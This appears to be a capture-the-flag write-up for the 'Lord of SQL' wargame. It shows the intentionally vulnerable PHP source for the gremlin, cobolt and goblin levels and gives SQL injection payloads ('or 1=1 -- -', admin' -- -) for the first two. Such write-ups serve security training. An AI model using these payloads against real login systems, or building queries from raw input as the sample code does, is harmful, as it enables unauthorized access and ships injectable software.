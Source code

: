 # LORD OF SQL

## GREMLIN

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

payload: `id=cc&pw='or 1=1 -- -`

## COBOLT

```php
http://www.wechall.net
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

payload: `id=admin' -- -`

## GOBLIN

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
